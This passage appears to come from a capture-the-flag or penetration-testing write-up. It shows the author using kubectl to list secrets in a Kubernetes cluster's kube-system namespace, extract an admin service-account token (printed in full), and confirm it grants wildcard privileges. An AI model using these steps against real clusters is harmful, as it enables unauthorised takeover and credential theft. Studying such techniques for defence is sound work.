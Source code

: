Sweet, we can get and list the secrets:

```
./kube get secrets -n kube-system
NAME                                             TYPE                                  DATA   AGE
attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      221d
bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      221d
c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      221d
[...]
```

The admin token looks promising to let's extract that:

```
./kube describe secret/c-admin-token-tfmp2 -n kube-system

Name:         c-admin-token-tfmp2
Namespace:    kube-system
Labels:       <none>
Annotations:  kubernetes.io/service-account.name: c-admin
              kubernetes.io/service-account.uid: 2463505f-983e-45bd-91f7-cd59bfe066d0

Type:  kubernetes.io/service-account-token

Data
====
ca.crt:     1066 bytes
namespace:  11 bytes
token:      eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
```

For convience we safe the token in a variable: `export admin_token='{TOKEN_HERE}'`.

Let's check our privileges with the admin token:

```
./kube --token=$admin_token auth can-i --list

Resources                                       Non-Resource URLs                     Resource Names   Verbs
*.*                                             []                                    []               [*]
                                                [*]                                   []               [*]
```

